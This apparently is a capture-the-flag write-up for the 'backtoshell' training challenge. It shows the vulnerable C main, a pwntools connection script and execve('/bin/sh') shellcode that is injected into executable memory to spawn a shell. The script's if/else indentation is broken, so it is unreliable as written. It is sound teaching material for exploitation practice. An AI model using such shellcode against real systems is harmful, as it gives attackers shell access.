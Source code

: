 #backtoshell

This is an easy shellcode challenge, it presents this main:
```c
void main(void)

{
  code *shellcode;
  
  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,0x200);
  (*shellcode)(0,0,0,0,0,0);
  return;
}
```
as we can see it create a memory space that of 0x1000 bytes that is readable writable and executable.
Then reads directly in this memory area and call the memory area as a function.
We can inject in that memory area a shellcode and that will be executed!
Our aim is to create a shellcode that will spawn a shell.
First of all we create a script python to interact with the binary:
```python
from pwn import *

import time
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
exename="./backtoshell"
port=2015
if "REMOTE" not in args:
	r = process(exename)
	if "NOGDB" not in args:
		gdb.attach(r, """
			# b d
			c
			""")
	else:
	r = remote("bin.training.offdef.it", port)
r.interactive()
```

in GDB we can see that the when our input is called as a function the address to our input is in rax, so we can create a shellcode in this way:
```python
asm_code="""
mov rdi, rax
add rdi,16
mov rax, 0x3b
syscall
"""
shellcode=asm(asm_code)
```
the "add rdi 16" instruction is to make rdi point to "/bin/sh/\x00", that we will put just after the shellcode in our payload. 16 is just the size of the shellcode.
Mov rax 0x3b and syscall will make our machine execute execve.
at the end we will send the payload in this way:
```python
payload=shellcode+b"/bin/sh\x00"
r.sendline(payload)
```
